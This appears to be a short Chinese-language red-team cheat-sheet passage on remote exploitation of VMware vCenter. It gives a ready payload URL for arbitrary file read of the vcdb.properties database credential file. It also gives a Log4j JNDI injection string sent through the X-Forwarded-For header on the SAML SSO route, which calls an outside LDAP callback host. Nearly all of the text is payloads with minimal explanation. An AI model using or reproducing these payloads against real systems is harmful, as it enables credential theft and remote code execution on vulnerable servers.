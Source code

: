 ![](../../../../../assets/img/Security/RedTeam/软件服务安全/实验/vCenter/1.png)

---

## 远程利用

### Vmware vCenter 任意文件读取

**POC | Payload | exp**
```
https://Domain/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```

---

### Log4j

**影响版本**
* 7.x
* 6.x

**POC | Payload | exp**

Vcenter 的 SAML 路由中，可以通过增加 XFF 头触发漏洞
```
/websso/SAML2/SSO/vsphere.local?SAMLRequest=

X-Forwarded-For: ${jndi:ldap://xxx.dnslog.cn/a}

# 可用 tomcatecho
```

---